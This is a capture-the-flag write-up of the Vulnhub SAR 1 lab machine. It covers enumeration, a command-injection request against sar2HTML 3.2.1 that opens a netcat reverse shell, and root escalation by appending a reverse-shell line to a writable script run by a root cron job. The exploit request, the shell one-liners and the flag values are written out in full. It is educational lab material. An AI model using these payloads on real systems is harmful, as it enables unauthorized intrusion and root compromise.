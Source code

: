 Vulnhub - SAR 1

# Vulnhub - SAR 1

## Enumeration

- Using NMAP, found http application listening on 80/tcp

```
# Nmap 7.80 scan initiated Sun Sep  6 20:28:40 2020 as: nmap -sC -sV -oA quick 192.168.112.35
Nmap scan report for 192.168.112.35
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 20:29:16 2020 -- 1 IP address (1 host up) scanned in 35.65 seconds

```

- After running nikto, found one entry on **robots.txt** mentioning **sar2HTML**

```
sar2HTML
```

## User Flag

- Checking the app on searchsploit found a RCE vulnerability for version 3.2.1, which is the same version currently running in this box, where would be possible get RCE from plot parameter

```
└─$ searchsploit sar2html
----------------------------------------------------------------------------------- ---------------------------
  Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------
Sar2HTML 3.2.1 - Remote Command Execution                                          | php/webapps/47204.txt
----------------------------------------------------------------------------------- ---------------------------
Shellcodes: No Results

```

- Successfully obtained a reverse shell using the following request 

```
GET /sar2HTML/index.php?plot=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.112+4443+>/tmp/f HTTP/1.1
Host: 192.168.112.35
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=qp8ntm774js13nahouoon1kvdu
Upgrade-Insecure-Requests: 1
```


- Enumerating readable files     under /home, found the list below, where the user flag was found:

```
www-data@sar:/var/www$ find /home -type f -readable 2> /dev/null
/home/local.txt
/home/love/.sudo_as_admin_successful
/home/love/.bashrc
/home/love/.selected_editor
/home/love/.bash_logout
/home/love/.profile
/home/love/Desktop/user.txt
www-data@sar:/var/www$ cat /home/local.txt
0462238a22547746e340454e9cdc041a
```

Root Flag:

- After running LinEnum.sh     identified that there was a cron running as root every 5 minutes, calling     a file ./finally under html folder, which invoke a ./write.sh file at the     same directory.

- Besides not having access on     this file it calls ./write.sh, which is writable.

- Appended the command line     below to write.sh to start a reverse shell to box as root

- - rm /tmp/g;mkfifo /tmp/g;cat      /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g

- After getting the shell, was     able to retrieve root flag under /root/root.txt containing the value:

```
# ls -la
total 40
drwx------  5 root root 4096 Sep  8 05:11 .
drwxr-xr-x 24 root root 4096 Mar 10 11:41 ..
-rw-------  1 root root    0 Jul 24 20:39 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 14 22:02 .cache
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep  8 05:12 proof.txt
-rw-r--r--  1 root root   32 Jul 14 17:41 root.txt
-rw-r-----  1 root root    5 Sep  8 05:25 .vboxclient-display-svga.pid
# cat root.txt
Your flag is in another file...
# cat proof.txt
6fe4f0598f601e515664cec37fa579b8
# 
```
